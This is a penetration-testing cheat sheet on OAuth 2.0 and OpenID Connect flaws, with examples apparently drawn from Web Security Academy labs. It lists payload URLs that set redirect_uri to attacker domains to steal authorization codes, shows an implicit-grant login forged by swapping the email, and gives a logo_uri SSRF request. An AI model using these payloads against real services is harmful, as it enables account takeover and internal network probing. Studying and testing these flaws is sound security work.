 ```yaml
---
title: "OAuth 2.0"
weight: 17
description: "Explore OAuth 2.0 authorization framework, its vulnerabilities, and common security flaws in penetration testing. Learn how to identify OAuth flow and prevent attacks."
---
```


<details><summary>Introduction</summary>

**What is OAuth?**

* OAuth is a commonly used authorization framework that enables web applications to request limited access to a user's account on another application.

**How does OAuth 2.0 work?**

* **Client application** - The website that wants to access the user's data.
* **Resource owner** - The user whose data the client application wants to access.
* **OAuth service provider** - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

</details>

---

## Identifying OAuth authentication

* If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
* Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the `/authorization` endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the `client_id`, `redirect_uri`, and `response_type` parameters

### Recon

If using an external OAuth service, identify the provider by the hostname in the authorization request. Public API documentation typically provides detailed information, including endpoint names and configuration options. Try sending a request to the following standard endpoints:

* `/.well-known/oauth-authorization-server`
* `/.well-known/openid-configuration`

---

## Vulnerabilities

### Improper implementation of the implicit grant type

At the conclusion of the login process, the client application often sends the username and access token to the server via a `POST` request. The server then issues a session cookie, effectively completing the login and establishing the user session

```http
POST /authenticate HTTP/2
Host: 0a55005703e1680182bd7f6100b60068.web-security-academy.net
[..]

{"email":"lebron@cleveland.com","username":"lebron","token":"ckNqkfxB"}
```

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=OixJC365d0v7yaU1l1xEnCCtfnRZDhZe; Secure; HttpOnly; SameSite=None
```

Exploitation: repeat this request with an arbitrary account (changing email and username) and leaving the access token

### Account hijacking via redirect\_uri

Replace `redirect_uri` with a attacker controlled domain

```md
https://oauth-x.oauth-server.net/auth?client_id=xyz&redirect_uri=https://attack.com/oauth-callback&response_type=code&scope=openid profile email
```

> **Note**: Using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.

**Flawed redirect\_uri validation**

```md
https://default-host.com@foo.evil-user.net
https://oauth-xxx-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
https://localhost.evil-user.net
```

**Chain vulns**

If you are unable to successfully submit an external domain as the `redirect_uri` you can chain vulnerabilities like open redirect, xss etc.

1. Find open redirect

    ```md
    https://server.net/post/next?path=https://attacker.com
    ```

2. Use this url as `redirect_uri`&#x20;

    ```md
    https://oauth-xxx-server.com/?client_id=123&redirect_uri=https://server.net/post/next?path=https://attacker.com[...]
    ```

> **Tip**: The default URI will often be on an OAuth-specific path, such as `/oauth/callback`, so you can use directory traversal tricks `https://client-app.com/oauth/callback/../../example/path`.

### Flawed CSRF protection

if you notice that the authorization request does not send a `state` parameter, It potentially means that you can initiate an OAuth flow yourself before tricking a user's browser into completing it, similar to a traditional CSRF attack.

---

## OpenID Connect

### Identifying OpenID Connect

Look for the mandatory `openid` scope

### Unprotected dynamic client registration

1. Identify configuration file `/.well-known/openid-configuration` to get registration\_endpoint
2. Register your own client app. In the logo\_uri add a external url for SSRF

    ```http
    POST /reg HTTP/1.1
    Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
    Content-Type: application/json

    {
        "application_type": "web",
        "client_name": "My Application",
        "redirect_uris": [
            "https://client-app.com/callback",
            "https://client-app.com/callback2"
            ],
        "logo_uri": "https://BURP-COLLABORATOR-SUBDOMAIN"
    }
    ```

    ```http
    HTTP/2 201 Created
    [...]

    {[...]"client_id":"aqFGUZgiQmXrUphoMV7i6","client_name":"My Application",[...]}
    ```

3. Make `GET /client/CLIENT-ID/logo` request and replace the `client_id`
